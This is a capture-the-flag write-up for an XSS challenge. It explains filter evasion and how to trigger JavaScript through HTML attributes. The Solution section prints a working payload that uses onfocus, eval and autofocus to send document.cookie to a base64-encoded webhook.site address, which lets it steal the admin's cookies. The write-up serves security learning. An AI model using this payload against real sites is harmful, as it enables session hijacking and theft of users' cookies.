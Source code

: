 ![image](https://github.com/user-attachments/assets/589582d3-7432-40a1-8e68-9829e44f23ed)
<br>Hint 1: Can you run javascript in HTML attributes?

# Exploration
two key things needed to be noted from this challenge.
1. Same as XSS-GPT v2, filter evasion still exist here.
![image](https://github.com/user-attachments/assets/ad146703-e5be-47d5-a74f-d6c07559df61)
2. Payload reflected area has also changed. Prev was direct javascript, now is under HTML tags.
![image](https://github.com/user-attachments/assets/02eda188-3fc6-40d9-9f23-a797a720153b)

the tip here is to use other HTML attributes to trigger javascript code.

# Solution
The payload should look something like this.
<br>```hii onfocus=eval("location.href=(atob('aHR0cHM6Ly93ZWJob29rLnNpdGUvNjQ2NzkwMTEtN2EyNS00NmIzLThlYTEtMGE4NmM2NTQyYTMzP2M9'))+document.cookie") autofocus=```
<br>```hii``` is used to fill in the value parameter.
<br>```onfocus``` is used to run javascript code that use to return admin cookies.
<br>```autofocus``` is used to trigger the onfocus attribute, if not it won't run.
<br>Visit this site to learn more: https://security.stackexchange.com/questions/97550/how-to-launch-xss-code-from-an-input-html-tag-upon-page-load

Same thing as XSS-GPT v2, make sure turn URL into base64 and turn whole payload into URL Encoded.
![image](https://github.com/user-attachments/assets/b6c518b2-c5f6-45b9-af68-1573cde17bd2)
![image](https://github.com/user-attachments/assets/cb032062-6ffb-4d1d-8943-a20c56ef47c8)
![final1](https://github.com/user-attachments/assets/1a6a4431-a806-4a69-a4d9-4a00968b0fa2)
